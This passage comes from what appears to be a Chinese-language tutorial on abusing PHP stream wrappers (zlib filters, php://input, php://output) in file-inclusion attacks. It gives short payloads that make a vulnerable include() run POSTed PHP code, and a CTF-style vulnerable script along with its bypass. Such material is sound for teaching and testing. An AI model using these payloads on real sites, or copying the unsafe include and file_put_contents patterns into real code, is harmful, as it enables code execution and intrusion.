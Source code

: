 ###### 压缩过滤器

```
zlib.deflate 压缩
zlib.inflate 解压
```

###### 加密过滤器

mcrypt

mdecrypt

用的不多,不说了

#### php://input

**php://input 是个可以访问请求的原始数据的只读流,可以读取到post没有解析的原始数据, 将post请求中的数据作为PHP代码执行。因为它不依赖于特定的 php.ini 指令。**

**注：enctype=”multipart/form-data” 的时候 php://input 是无效的。**

> allow_url_fopen ：off/on
> allow_url_include：on

payload

```
url:http://127.0.0.1/file.php?page=php://input
//postdata
a=<?php phpinfo();?>
```

实例

```
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];

if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
解法为  url/index.php?user=php://input  
[POSTDATA] the user is admin
最后输出为hello admin!并且包含对应文件
```

#### php://output

是一个只写的数据流， 允许你以 print 和 echo 一样的方式 写入到输出缓冲区。

payload

```
#file.php
<?php  
$code=$_GET["page"];  
file_put_contents($code,"test");   
?>
url:http://127.0.0.1/file.php?page=php://output
//结果输出test
```
